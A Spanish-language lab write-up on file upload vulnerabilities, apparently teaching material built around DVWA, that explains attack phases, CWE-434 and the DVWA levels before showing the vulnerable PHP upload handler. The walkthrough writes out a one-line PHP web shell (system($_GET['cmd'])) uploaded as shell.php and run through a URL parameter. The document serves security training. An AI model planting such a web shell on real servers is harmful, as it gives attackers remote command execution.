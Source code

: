 

## Esquema  de las fases de un vulnerabilidad file upload:
Un esquema de las fases de una vulnerabilidad de carga de archivos (file upload) puede proporcionar una visión clara de cómo se pueden explotar estas vulnerabilidades y qué pasos siguen los atacantes:
- Identificación de la vulnerabilidad:
  - Descubrimiento: El atacante encuentra un formulario o servicio en la aplicación web que permite la carga de archivos.
  - Análisis: Se analiza el mecanismo de carga para identificar limitaciones o controles de seguridad, como filtros de tipos de archivos o validaciones de contenido.
- Evaluación y preparación:
  - Pruebas de límites: El atacante intenta cargar diferentes tipos de archivos (ejecutables, scripts, etc.) para ver cuáles son aceptados.
  - Creación de payloads: Basado en las pruebas, el atacante prepara archivos maliciosos diseñados para ejecutar código, obtener acceso no autorizado, o para otros fines malintencionados.
- Explotación:
  - Carga del payload: El atacante carga el archivo malicioso a través del mecanismo de carga identificado.
  - Ejecución: Buscan maneras de ejecutar el archivo malicioso. Esto puede implicar manipular la aplicación web para acceder al archivo o esperar a que un usuario o proceso desencadene su ejecución.
- Post-explotación:
  - Escala de privilegios: Una vez que el código malicioso se ha ejecutado, el atacante puede buscar escalar privilegios dentro del sistema o la red.
  - Persistencia: Intentan asegurar su acceso a largo plazo al sistema comprometido mediante la creación de puertas traseras, cuentas de usuario maliciosas, etc.
  - Exfiltración de datos: Pueden buscar robar datos sensibles del sistema o red comprometida.
  - Movimiento lateral: Exploran la red en busca de otros sistemas vulnerables para comprometer.
- Mitigación y respuesta:
  - Detección: Los sistemas de monitoreo y los equipos de seguridad detectan la actividad maliciosa.
  - Análisis: Se analiza el ataque para entender cómo se comprometió el sistema y cuál fue el alcance.
  - Remediación: Se eliminan los elementos maliciosos, se cierran las vulnerabilidades explotadas y se restauran los sistemas afectados a un estado seguro.
  - Mejora de la seguridad: Se revisan y mejoran las políticas, controles y herramientas de seguridad para prevenir futuros ataques similares.


## File Upload puede usarse para
La funcionalidad de carga de archivos en un sitio web puede ser aprovechada para varios tipos de ataques informáticos, entre ellos:
- Ataques al servidor: Si el servidor es capaz de interpretar y ejecutar código de programación como PHP, ASP o JSP, entonces podría ser vulnerable a la carga de archivos maliciosos. Por ejemplo, un atacante podría subir un archivo que actúe como una puerta trasera, permitiéndole ejecutar comandos directamente en el servidor.

- Denegación de Servicio (DoS): Si no hay un control adecuado sobre el tamaño de los archivos que se pueden subir, un atacante podría saturar el almacenamiento del servidor subiendo archivos extremadamente grandes, lo que podría hacer que el servidor deje de funcionar correctamente y se niegue el servicio a los usuarios legítimos.

- Ataques dirigidos a los usuarios del sitio: Subiendo archivos específicos, un atacante podría modificar el comportamiento de la página web para ejecutar scripts maliciosos (ataques XSS) cuando otros usuarios visiten la página, o incluso alterar el contenido de la página web (defacement) para engañar a los usuarios y realizar phishing.

- Provocación de errores en sistemas relacionados: La carga de archivos especialmente diseñados podría causar errores o comportamientos inesperados en otros sistemas que interactúen con el servidor, explotando vulnerabilidades indirectamente.

- Carga de contenido inapropiado o malicioso: Además de los ataques directos a la infraestructura o a los usuarios, la carga de archivos puede ser utilizada para subir y distribuir contenido ilegal o dañino, como malware, contenido para adultos sin autorización o software pirata, lo cual podría tener implicaciones legales y de reputación para el propietario del sitio web.

## Categorización de File Upload Vulnerabilities
La CWE asociada a esta vulnerabilidad es CWE-434: Unrestricted Upload of File with Dangerous Type, recogida en OWASP Top 10 en la categoría A04: Insecure Design.

El CWE-434 abarca situaciones en las que una aplicación acepta archivos cargados sin validar o restringir adecuadamente los tipos de archivos permitidos. Esto puede resultar en la carga y potencial ejecución de archivos maliciosos, poniendo en riesgo la seguridad del sistema. Las medidas de mitigación para esta clase de vulnerabilidad incluyen la validación estricta del tipo de archivo, la verificación del contenido del archivo, y la implementación de políticas de seguridad adecuadas para el manejo de archivos cargados.


## DVWA File Upload - View Help
- About:
  - Uploaded files represent a significant risk to web applications. The first step in many attacks is to get some code to the system to be attacked. Then the attacker only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.

  - The consequences of unrestricted file upload can vary, including complete system takeover, an overloaded file system, forwarding attacks to backend systems, and simple defacement. It depends on what the application does with the uploaded file, including where it is stored.

- Objective: Execute any PHP function of your choosing on the target system (such as phpinfo() or system()) thanks to this file upload vulnerability.

- Low Level:
  - Low level will not check the contents of the file being uploaded in any way. It relies only on trust.
  - Spoiler: Upload any valid PHP file with command in it.

- Medium Level:
  - When using the medium level, it will check the reported file type from the client when its being uploaded.
  - Spoiler: Worth looking for any restrictions within any "hidden" form fields.

- High Level:
  - Once the file has been received from the client, the server will try to resize any image that was included in the request.
  - Spoiler: need to link in another vulnerability, such as file inclusion.

- Impossible Level: This will check everything from all the levels so far, as well then to re-encode the image. This will make a new image, therefor stripping any "non-image" code (including metadata).


## DVWA File Upload - Level Low - View Source

```
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>
```

Subiremos un fichero llamado shell.php con el código:
```
<?php system($_GET['cmd']);?>
```
system(): Es una función de PHP que se utiliza para ejecutar comandos del sistema operativo externo y mostrar la salida directamente. Esta función es muy poderosa y puede ejecutar prácticamente cualquier comando disponible en el sistema operativo del servidor donde se aloja la aplicación web.

$_GET['cmd']: Esto recoge un valor enviado a través del método GET en la URL. Por ejemplo, si la URL es http://example.com/script.php?cmd=whoami, el valor de $_GET['cmd'] sería whoami, y ese comando se ejecutaría en el servidor a través de la función system().

![](capturas/file-upload-lab-dvwa-level-low.png)
![](capturas/file-upload-lab-dvwa-level-low-2.png)
![](capturas/file-upload-lab-dvwa-level-low-3.png)
![](capturas/file-upload-lab-dvwa-level-low-4.png)



